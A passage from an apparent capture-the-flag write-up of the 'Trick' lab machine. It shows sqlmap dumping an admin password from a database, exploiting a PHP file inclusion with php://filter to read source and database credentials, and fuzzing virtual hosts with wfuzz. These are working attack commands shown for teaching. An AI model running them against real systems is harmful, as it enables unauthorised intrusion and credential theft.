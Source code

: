 ```shell
[15:43:19] [INFO] retrieved: users                                                                                       
[15:43:36] [INFO] retrieved: deductions                                                                                  
[... SNIP ...]   
```
As we can see `sqlmap` succeeded, and we can enumerate the database schema:  
Now that we have the database schema, we can enumerate for specific db/table:
```shell
[root@kali ~ ]$ sqlmap -r login.req --batch --dump -D payroll_db -T users 
[... SNIP ...]
[15:48:21] [INFO] retrieved: 
[15:48:21] [INFO] retrieved: 0
[15:48:27] [INFO] retrieved: 1
[15:48:29] [INFO] retrieved: Administrator
[15:49:13] [INFO] retrieved: SuperGucciRainbowCake
[15:50:26] [INFO] retrieved: 1
[15:50:28] [INFO] retrieved: Enemigosss
Database: payroll_db
Table: users
[1 entry]
+----+-----------+---------------+------+---------+---------+-----------------------+------------+
| id | doctor_id | name          | type | address | contact | password              | username   |
+----+-----------+---------------+------+---------+---------+-----------------------+------------+
| 1  | 0         | Administrator | 1    | <blank> | <blank> | SuperGucciRainbowCake | Enemigosss |
+----+-----------+---------------+------+---------+---------+-----------------------+------------+
```
The password can be used to log in into the application. 
Once we are inside, we can notice an LFI. If we try to exfiltrate code using `php://filter/convert.base64-encode/resource=` as we did for [FriendZone](FriendZone.md), [BountyHunter](BountyHunter.md), and [Tabby](Tabby.md), and we can notice that the LFI allows us to include only .php files.  
```php
<?php include $page.'.php' ?>
```
Application is not vulnerable to null bytes, hence we cannot escape the file inclusion to include any type of file.  
We can exfiltrate also `db_connect.php` and we can see the following credentials:  
```php
<?php

$conn= new mysqli('localhost','remo','TrulyImpossiblePasswordLmao123','payroll_db')or die("Could not connect to mysql".mysqli_error($con));
```
But these credentials does not lead anywhere.  
We also have an arbitrary file upload vulnerability but it does not work due to directory permission.
Since we came to a dead end we can try to enumerate if we have any other virtual host.  
Standard gobuster enumeration does not show anything, we can try to enumerate other vhosts using `wfuzz` using the naming pattern (`preprod-`) of the discovered virtual host.  
```shell
[root@kali /tmp ]$ wfuzz -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt --hw 475 -H'Host: preprod-FUZZ.trick.htb' -u 'http://trick.htb' -p localhost:8080 
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://trick.htb/
Total requests: 114441

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                                                     
=====================================================================
```